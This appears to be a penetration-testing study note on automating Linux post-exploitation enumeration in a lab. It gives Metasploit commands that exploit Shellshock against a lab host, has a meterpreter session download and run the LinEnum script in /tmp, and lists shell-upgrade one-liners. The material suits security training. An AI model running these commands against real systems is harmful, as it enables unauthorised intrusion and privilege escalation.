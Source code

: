 #### Automation

* In addition to performing local enumeration manually, we can also automate the process with the help of a few scripts and MSF modules.
* While local enumeration techniques/commands are important to know, as a penetration tester, you will need to be time efficient. As a result, you will need to learn how to utilize various automated enumeration scripts.
* In addition to automating the process of enumerating information like system information, users & groups etc, these automated enumeration scripts will also provide you with additional information regarding the target system like; privilege escalation, locally stored passwords etc.
* LinEnum : it is a simple bash script that automates common Linux local enumeration checks in addition to identifying privilege escalation vulnerabilities (https://github.com/rebootuser/LinEnum).

```bash
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set targeturi /gettime.cgi
msf6> set rhosts 192.106.15.3
msf6> run
meterpreter> background
```

The MSF post-exploitation modules are :

* `post/linux/gather/enum_configs`
* `post/linux/gather/enum_network`
* `post/linux/gather/enum_system`
* `post/linux/gather/checkvm`

**LinEnum**

The script is here : https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh. Copy/paste the content in a bash file in the lab environment.

```bash
meterpreter> cat /etc/shells  # installed shells
meterpreter> cd /tmp
meterpreter> curl -o linenum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
meterpreter> chmod +x linenum.sh
meterpreter> ./linenum.sh
```

### Upgrading shells

```bash
/bin/bash -i
python -c "import pty;pty.spawn('/bin/bash')"
perl -e 'exec "/bin/bash"'

root@victim> env
root@victim> export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@victim> env
root@victim> export TERM=xterm
root@victim> export SHELL=bash
```
